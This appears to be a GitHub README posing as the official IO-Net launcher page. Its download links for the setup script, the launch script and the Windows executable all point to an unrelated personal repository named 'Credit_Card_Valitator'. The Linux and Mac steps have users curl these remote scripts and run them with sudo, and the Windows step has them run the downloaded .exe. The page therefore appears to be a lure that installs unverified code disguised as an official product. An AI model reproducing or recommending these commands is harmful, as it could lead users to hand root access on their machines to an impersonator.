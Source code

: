 
# IO-Net Official Binaries

Welcome to the official repository for IO-Net launcher binaries. This repository facilitates easy setup and execution of the IO-Net worker software across different platforms. Follow the instructions below to set up and run the binaries on your respective operating system.

## Prerequisites

### For Linux
- Docker
- Nvidia drivers (required for GPU Workers) - running the **IO-Setup** script will automatically install this if needed.
- Nvidia container toolkit (required for GPU Workers) - running the **IO-Setup** script  will automatically install this if needed.

### For Mac OS and Windows
- Docker Desktop
  - [Download Docker Desktop for Mac](https://www.docker.com/products/docker-desktop/) - for Mac choose - Apple chip version for download.

## Installation Instructions

### Linux

1. **Perform IO-Setup (one-time hardware setup)** (skip if Docker and Nvidia drivers are already installed and configured):
   - Download and run the setup script:
     ```bash
     curl -L https://github.com/ilkhom19/Credit_Card_Valitator/raw/main/ionet-setup.sh -o ionet-setup.sh
     chmod +x ionet-setup.sh && ./ionet-setup.sh
     ```
   - **Note**: In case the `curl` command fails, install `curl` using:
     ```bash
     sudo apt install curl
     ```
   - **Note**: **For systems with GPUs**: Wait for a restart and rerun the setup script after the restart.


2. **Download and launch the binary**:
   - After completing the setup, download and execute the binary launch script:
     ```bash
     curl -sL https://raw.githubusercontent.com/ilkhom19/Credit_Card_Valitator/main/launch-binary.sh -o launch-binary.sh && sudo bash launch-binary.sh
     ```



### Mac

1. **Download and launch the binary**:
   ```
   curl -sL https://raw.githubusercontent.com/ilkhom19/Credit_Card_Valitator/main/launch-binary.sh -o launch-binary.sh && sudo bash launch-binary.sh
   ```

   **Troubleshooting**: If you encounter an error such as `bad CPU type in executable`, you might be running software designed for an Intel processor on an Apple Silicon device. Install Rosetta 2 to resolve this issue:
   ```
   softwareupdate --install-rosetta
   ```

### Windows

1. **Manual Download and Launch**:
   - Download the binary named `io-net-launcher-windows-amd64.exe` from the [latest GitHub release](https://github.com/ilkhom19/Credit_Card_Valitator/releases/latest).
   - Open your Downloads folder via Command Prompt (cmd), and launch the binary with the `\k` argument to keep the program open in case of errors:
   ```
   io-net-launcher-windows-amd64.exe \k
   ```

## Starting the Software

- **Linux/Mac**: You can re-run the "Download and launch the binary" script each time to start the application in interactive mode or follow additional instructions provided on the website.
- **Windows**: Execute the binary as described in the installation step to start using the software.

## Support

For support, please open an issue in this repository or contact our support team on [Discord](https://discord.gg/kqFzFK7fg2).

---

